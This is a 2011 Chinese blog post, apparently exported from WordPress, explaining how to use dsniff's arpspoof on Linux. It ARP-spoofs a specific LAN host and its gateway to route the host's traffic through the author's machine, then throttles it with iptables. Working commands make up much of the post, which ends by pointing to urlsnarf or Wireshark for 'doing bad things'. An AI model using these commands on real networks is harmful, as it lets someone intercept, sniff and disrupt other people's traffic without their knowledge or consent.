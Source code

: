 ```yaml
---
author: admin
comments: true
date: 2011-11-07 19:16:51
layout: post
title: linux下限制局域网内部使用p2p软件的主机
wordpress_id: 1865
categories:
- 服务器
---
```


windows下有p2p终结者，linux下咱有dsniff，介绍：[here](http://monkey.org/~dugsong/dsniff/)，其的用途之一就是做arp欺骗，具体命令是arpspoof.

作用：

arpspoof将局域网内的目标主机或者是所有主机的发送数据包通过ARP欺骗来重指向。<br></br>在使用交换机的局域网环境下是一个非常有效的方法来嗅探数据：)

注意：kernel的ip转发必须要提前打开

使用：

arpspoof [-i interface] [-t target] host

-i 用来指示要使用的网卡接口，一般是eth0,

-t 用来指示要欺骗的目标主机，如果不表明则默认为局域网内部的所有主机

host 你要截取数据包的主机，通常是网关

具体使用：

环境archlinux ,要限制的ip为192.168.0.29，本机ip为192.168.0.24,实验室网管为192.168.0.1

1 安装

    sudo pacman -S dsniff

2 开启内核转发和欺骗

    #echo 1 > /proc/sys/net/ipv4/ip_forward

    #欺骗192.168.0.29，告诉这台机器网关192.168.0.1的MAC地址是自己(192.168.0.24)。

    $sudo arpspoof -i eth0 -t 192.168.0.29 192.168.0.1

    #欺骗192.168.0.1，告诉网关192.168.0.29的MAC地址是自己(192.168.0.24)

    $sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.29

    _192.168.0.29以为192.168.0.24就是192.168.0.1，192.168.0.1以为192.168.0.24就是192.168.0.29_

3 利用iptables开始限速

    #192.168.0.29被限制每秒只能传输3个数据包了

    $sudo iptables -A FORWARD -s 192.168.0.29  -m limit --limit 3/s -j ACCEPT           <br></br>$sudo iptables -A FORWARD -d 192.168.0.29 -m limit --limit 3/s -j ACCEPT                  <br></br>$sudo iptables -A FORWARD -s 192.168.0.29  -j DROP                                                 <br></br>$sudo iptables -A FORWARD -d 192.168.0.29  -j DROP   

4 当然，如果你想干坏事的话可以用 urlsnarf 或者wireshark之类的。。。。恩

参考资料：

[http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html](http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html)

[http://www.yuanma.org/data/2006/0914/article_1536.htm](http://www.yuanma.org/data/2006/0914/article_1536.htm)
